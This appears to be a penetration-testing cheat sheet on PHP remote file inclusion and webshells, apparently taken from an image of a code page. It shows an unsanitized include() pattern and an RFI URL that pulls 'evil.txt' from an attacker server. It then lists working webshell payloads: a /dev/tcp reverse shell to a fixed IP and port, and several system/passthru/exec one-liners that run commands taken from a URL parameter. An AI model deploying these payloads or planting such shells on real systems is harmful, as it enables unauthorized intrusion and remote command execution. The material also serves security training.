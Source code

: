 You have access to different kinds of webshells on Kali here:

/usr/share/webshells
PHP
This code can be injected into pages that use PHP IN ORDER TO ACCESS RFI to Shell

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI’s are less common than LFI. Because in order to get them to work the developer must have edited the php.ini configuration file.

This is how they work.

So you have an unsanitized parameter, like this

$incfile = $_REQUEST["file"];
include($incfile.".php");
Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attacker’s server.

http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
And evil.txt will look like something like this:

<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>

# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>
